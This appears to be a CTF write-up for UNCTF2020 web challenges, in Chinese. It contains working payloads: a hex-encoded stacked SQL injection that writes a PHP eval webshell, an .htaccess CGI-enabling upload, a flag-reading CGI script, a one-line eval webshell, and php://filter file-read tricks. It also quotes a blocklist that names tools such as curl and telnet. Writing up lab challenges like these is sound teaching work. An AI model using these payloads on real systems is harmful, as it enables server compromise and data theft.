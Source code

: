 最近还看到Lazzaro师傅的文章，更简单[UNCTF2020](https://lazzzaro.github.io/2020/11/14/match-UNCTF2020/)，原来可以直接0x写进去呀
```sql
1'; prepare execsql from 0x73656c656374202a2066726f6d20603078446b746260;execute execsql;#
1'; prepare execsql from 0x73656c65637420273c3f70687020406576616c28245f504f53545b6363635d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f7368656c6c2e70687027;execute execsql;#
```
![](/bmth_blog/images/pasted-206.png)

## easy_upload
这题是De1CTF 2020 checkin的原题,禁用名单(注意这里并没有禁掉\\)：
```php
perl|pyth|ph|auto|curl|base|\|>|rm|ryby|openssl|war|lua|msf|xter|telnet in contents!
```
这里师傅是上传.htaccess,开启cgi支持，上传cgi脚本，执行cgi脚本，输出flag
**上传.htaccess：**
```
Options +ExecCGI
AddHandler cgi-script .xx
```
![](/bmth_blog/images/pasted-177.png)
**上传cgi脚本**：
流程和.htaccess一致，但注意，cgi脚本最好在linux系统下编写，直接在bp里面改内容有可能出错
```cgi
#!/bin/bash
echo "Content-Type: text/plain"
echo ""
cat /flag
exit 0
```
![](/bmth_blog/images/pasted-178.png)
本题还有一个方法，使用短标签，当时没有想出来这么简单的方法。。。
![](/bmth_blog/images/pasted-179.png)
随后上传1.bmth即可获取webshell
```php
<?=eval($_POST[1]);
```
![](/bmth_blog/images/pasted-180.png)

## L0vephp
当时以为是脑洞题，原来是我见识短浅。给了一个参考文章：[eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
查看源码发现有`<!-- B4Z0-@:OCnDf, -->`是base85，Orz
![](/bmth_blog/images/pasted-181.png)
解码发现是get action，即可使用文件包含，发现base被禁了，使用rot13
```php
?action=php://filter/string.rot13/resource=flag.php
```
还可以使用quoted-printable-encode
```php
?action=php://filter/convert.quoted-printable-encode/resource=flag.php
```
得到flag.php源码
```php
<?php
$flag = "unctf{7his_is_@_f4ke_f1a9}";
//hint:316E4433782E706870
?>
```
很明显是16进制，解码一下是1nD3x.php，访问得到源码
```php
 <?php 
```